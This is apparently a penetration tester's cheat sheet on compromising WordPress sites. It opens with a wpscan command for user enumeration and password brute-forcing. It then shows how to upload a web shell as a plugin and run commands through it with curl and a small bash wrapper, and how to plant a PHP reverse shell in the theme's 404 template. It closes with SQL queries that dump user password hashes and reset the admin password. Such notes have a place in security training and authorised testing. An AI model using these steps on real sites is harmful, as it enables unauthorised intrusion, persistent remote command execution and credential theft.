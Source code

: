 #### WPSSCAN

```
wpscan -e ap,at,tt,cb,dbe,u,m --url http://$IP --plugins-detection mixed --passwords /usr/share/seclists/Passwords/probable-v2-top12000.txt | tee scans/wpscan.out
```

#### Plugin RCE

```
cd /usr/share/seclists/Web-Shells/WordPress
ls  # plugin-shell.php
head plugin-shell.php
```
```
#  file is named plugin-shell.zip and will be placed in the plugin-shell folder within wp-content/plugins on the server
sudo zip plugin-shell.zip plugin-shell.php
```

Plugins -> add new -> upload

```
curl http://$IP/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
# www-data
```

Automate curl :
```
#!/bin/bash
# -G is necessary to append the data to the URL.
curl -G --data-urlencode "cmd=$1" "http://$IP/wp-content/plugins/plugin-shell/plugin-shell.php" --output -
```

#### Panel RCE

Appearance -> Editor -> 404 Template (at the right) -> Paste php-reverse-shell.php (Edit lhost and lport) -> Update File

```
http://$IP/wp-content/themes/<theme_name>/404.php
```

#### Other info

- Access credentials in wordpres db : SELECT user_login, user_pass FROM wp_users

- Config file is : wp-config.php

- Update wordpress password from mysql : UPDATE wp_users SET user_pass=MD5('newPassword') WHERE user_login = 'admin'; 